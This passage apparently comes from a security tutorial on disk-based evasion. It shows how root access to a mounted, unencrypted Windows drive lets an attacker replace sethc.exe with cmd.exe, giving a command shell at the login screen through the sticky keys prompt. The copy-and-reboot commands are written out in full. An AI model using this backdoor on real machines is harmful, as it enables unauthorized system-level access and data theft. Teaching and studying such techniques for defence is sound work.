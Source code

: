You are root and you have the Windows C: drive mounted at `/media/sda1`:

You now have root privileges on the entire file system if the hard drive isn't encrypted.

![](images/Evasion%20Techniques%20on%20Disk/image005.png)<br><br>

With an unencrypted hard drive, you can steal sensitive data, write malicious files to the system, or perform virtually any type of attack.  A classic example is replacing the Windows program `sethc.exe` with `cmd.exe`:

Run the following commands:

```
cd /media/sda1/Windows/System32
cp cmd.exe sethc.exe
reboot
```

Now let the machine boot back into Windows.  When the desktop finishes loading, log out of the user's account and press the Shift key five times:

![](images/Evasion%20Techniques%20on%20Disk/image006.png)<br><br>
